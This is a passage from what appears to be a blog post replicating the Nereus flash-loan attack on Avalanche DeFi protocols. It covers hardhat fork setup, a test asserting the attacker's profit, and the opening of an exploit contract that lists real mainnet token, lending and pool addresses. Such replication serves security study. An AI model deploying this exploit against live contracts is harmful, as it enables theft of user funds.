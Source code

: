 ```ts
    expect(beforeBalance).to.be.lt(afterBalance);
  });
});
```

Please read my post on the TempleDAO attack for more context on some of the code above if you've never used `hardhat` before.

- The commented out code from line 252 to 270 is used to impersonate the treasury account of the USDC token (i.e an account that has a ton of USDC). I used this to transfer 100,000,000 USDC to my contract so that the flash loan in the attack (see below) would always get repaid while writing the exploit.

    - I needed to do this because my attack contract had a `test()` function that simply returned the value of some variable from within my exploit. I used this for debugging purposes. A `console.log()` after a call to my `attackerContract` would fail if the call reverted.

- The block I forked from is exactly 1 block before the attacker transaction's block.

# The exploit

I will replicate the attacker's steps as close as possible. [You can see the final exploit here](https://github.com/farazsth98/real-world-ethereum-hacks-remastered/blob/master/contracts/NereusFlashLoanAttack/NereusFlashLoanAttack.sol). I will be skipping a lot of the unnecessary code in an effort to save space.

First, lets start off with the boilerplate:

<pre>
 <code id="htmlViewer" style="color:rgb(77, 77, 76); font-weight:400;background-color:rgb(255, 255, 255);background:rgb(255, 255, 255);display:block;padding: .5em;"><span style="color:rgb(234, 183, 0); font-weight:400;">contract</span> NereusFlashLoanAttack {
  <span style="color:rgb(234, 183, 0); font-weight:400;">IERC20</span> usdc = IERC20(0xB97EF9Ef8734C71904D8002F8b6Bc66Dd9c48a6E);
  <span style="color:rgb(234, 183, 0); font-weight:400;">IERC20</span> nxusd = IERC20(0xF14f4CE569cB3679E99d5059909E23B07bd2F387);
  <span style="color:rgb(234, 183, 0); font-weight:400;">IERC20</span> wavax = IERC20(0xB31f66AA3C1e785363F0875A1B74E27b85FD66c7);
  <span style="color:rgb(234, 183, 0); font-weight:400;">IERC20</span> usdce = IERC20(0xA7D7079b0FEaD91F3e65f86E8915Cb59c1a4C664);
  <span style="color:rgb(234, 183, 0); font-weight:400;">IERC20</span> wavaxusdc = IERC20(0xf4003F4efBE8691B60249E6afbD307aBE7758adb);
  <span style="color:rgb(234, 183, 0); font-weight:400;">IDegenBox</span> degenbox = IDegenBox(0x0B1F9C2211F77Ec3Fa2719671c5646cf6e59B775);
  <span style="color:rgb(234, 183, 0); font-weight:400;">ICauldronV2</span> cauldron = ICauldronV2(0xC0A7a7F141b6A5Bce3EC1B81823c8AFA456B6930);
  <span style="color:rgb(234, 183, 0); font-weight:400;">address</span> masterCauldron = 0xE767C6C3Bf42f550A5A258A379713322B6c4c060;
  <span style="color:rgb(234, 183, 0); font-weight:400;">ITraderJoeRouter</span> router = ITraderJoeRouter(0x60aE616a2155Ee3d9A68541Ba4544862310933d4);
  <span style="color:rgb(234, 183, 0); font-weight:400;">IFlashLoaner</span> flashLoaner = IFlashLoaner(0x794a61358D6845594F94dc1DB02A252b5b4814aD);
  <span style="color:rgb(234, 183, 0); font-weight:400;">address</span> nxusd3crv = 0x6BF6fc7EaF84174bb7e1610Efd865f0eBD2AA96D;
  <span style="color:rgb(234, 183, 0); font-weight:400;">ICurveStablePool</span> usdceusdc = ICurveStablePool(0x3a43A5851A3e3E0e25A3c1089670269786be1577);
  <span style="color:rgb(234, 183, 0); font-weight:400;">ICurveMeta</span> curvemeta = ICurveMeta(0x001E3BA199B4FF4B5B6e97aCD96daFC0E2e4156e);
